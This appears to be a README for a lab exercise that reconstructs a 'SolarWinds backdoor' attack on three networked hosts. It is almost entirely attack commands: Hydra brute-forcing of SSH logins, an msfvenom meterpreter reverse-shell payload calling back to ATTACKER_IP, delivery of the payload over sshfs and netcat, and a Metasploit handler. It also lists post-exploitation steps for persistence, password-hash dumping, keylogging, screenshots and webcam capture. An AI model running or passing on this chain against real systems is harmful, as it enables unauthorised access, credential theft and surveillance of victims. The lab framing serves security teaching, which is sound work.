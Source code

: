 # Solarwinds backdoor affair

- Creation of 3 hosts (using *GNS3 Lab*):
    - **Orion server**
    - **Client (Victim)**
    - **Attacker**

They all are in the same LAN.

### SSH Password Cracking

- **Tool: Hydra**

- **Type of attack: dictionary attack**

- *bruteforcing only password*

    >hydra -l \<username\> -P \<path to wordlist\> \<IP\> ssh

    *where \<path to wordlist\> is a list of passwords to check*

- *bruteforcing only username*

    >hydra -L \<path to wordlist\> -p \<password\> \<IP\> ssh

    *where \<path to wordlist\> is a list of usernames to check*

- *bruteforcing both user*name and password*

    >hydra -L \<path to wordlist1\> -P \<path to wordlist2\> \<IP\> ssh

    *where \<path to wordlist1\> is a list of usernames and \<path to wordlist2\> is a list of passwords*


### Backdoor

- **Tool: msfvenom (metasploit), sshfs, ssh**

- *creation of the backdoor (to do on the attacker host)*

    >msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=\<ATTACKER_IP\> LPORT=\<PORT\> -f elf > filename.elf

- *move the backdoor executable filename.elf (generated in the previous step) from the attacker's host file system to the Orion Server file system using sshfs*

    - *mount the Orion server FS on the attacker's host FS*

        >sshfs \<SERVER_USERNAME\>@\<SERVER_IP\>:/root/node/to/mount /attacker/folder/with/mount
    
    - *move or copy the executable*

    - *unmount the Orion Server FS*

        >fusermount -u /attacker/folder/with/mount


- *access to the Orion Server from the attacker host with ssh (since you know the ssh password)*
    >ssh \<SERVER_IP\>

- *send the executable using netcat*

    - *open a listening socket on client host (victim)*

        >nc -l -p \<PORT\> > /path/dest/executable
    
    - *send the file from the attacker host*

        >cat /path/where/to/find/executable | nc \<VICTIM_IP\> \<PORT\>

- *execute the backdoor*

    - *open a multi handler server on the attacker machine*

        >msfconsole
        
        >use exploit/multi/handler

        >set payload linux/x86/meterpreter/reverse_tcp

        >set LHOST \<ATTACKER_IP\>

        >set LPORT \<PORT\> (the same port used when creating the backdoor payload with msfvenom)

        >exploit
    
    - *execute the backdoor file on the victim machine*
    
    - *while the executable is running (on the victim), the attacker can do many things:*

        - *get information system*

            >sysinfo
        
        - *upload/download of file (to/from the victim's FS)*

            >download /path/to/file
            
            >upload /path/to/file
        
        - *managing the victim's FS with the usual linux terminal commands*

        - *controlling the victim's network (and sniffing it)*

        - *make **privilege escalation attack** to get root privileges*

        - *make the backdoor persistent (also at reboot)*

            >run persistence -U -p \<PORT\> -r \<ATTACKER_IP\>
        
        - *get the passwords dump*

            >run post/linux/gather/hashdump
        
        - *activate and stop a keylogger (and then also see the catched keys)*

        - *do a screenshot or record the webcam (if available)*

            >screenshot

            >webcam_list
            
            >webcam_snap
            